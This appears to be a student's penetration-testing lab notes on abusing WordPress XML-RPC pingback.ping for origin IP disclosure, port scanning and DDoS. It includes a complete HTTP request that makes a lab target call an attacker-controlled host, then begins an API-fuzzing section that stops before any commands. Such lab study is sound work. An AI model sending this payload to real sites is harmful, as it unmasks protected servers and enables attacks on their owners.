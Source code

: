 in the above list we can find `pingback.ping` which allows for XML-RPC pingbacks which is a comment that's created when you link to another blog post as long as the other blog is set to accept pingbacks 

if pingbacks are available the can facilitate: 
- ip disclosure - can call pingback.ping on a wordpress instance behind cloudfare to identify its public IP. The pingback will point to an attacker-controlled host like a VPS that will be accessible by a wordpress instance 
- cross-site port attack (XSPA) - can call pingback.ping against itself on different ports 
- DDoS - can call pingback.back on numerous wordpress instances against a single target 

as soon as the below request is sent, the attacker controlled host will receive a request (pingback) originating from the target site and exposing its public IP address: 

```http
--> POST /xmlrpc.php HTTP/1.1 
Host: blog.inlanefreight.com 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
```

## Information Disclosure (With a Twist of SQLi)

security related inefficiencies or misconfigs in a web service can result in info disclosure   
wen assessing a web service or an API we should spend a good amount of time fuzzing 

### Information disclosure through fuzzing 

suppose our target has an api on `http://<target>:3003`

we can first check to see if there are any parameters that might reveal the API's functionality   
lets try some parameter fuzzing: 
